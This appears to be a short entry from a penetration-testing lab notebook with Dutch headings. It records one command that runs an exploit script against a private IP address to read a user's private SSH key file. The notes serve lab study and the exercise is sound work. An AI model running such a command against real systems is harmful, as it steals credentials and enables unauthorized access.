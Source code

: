 # 27. Assembling the pieces — Entry 8

## Categorie

Exploit

## Commando

```
python3 50420.py http://192.168.175.244 /home/daniela/.ssh/id_rsa
```

## Omschrijving

```
Using the exploit to read the private ssh key
```

## Voorbeeld

_(empty)_

## Opmerkingen

_(empty)_

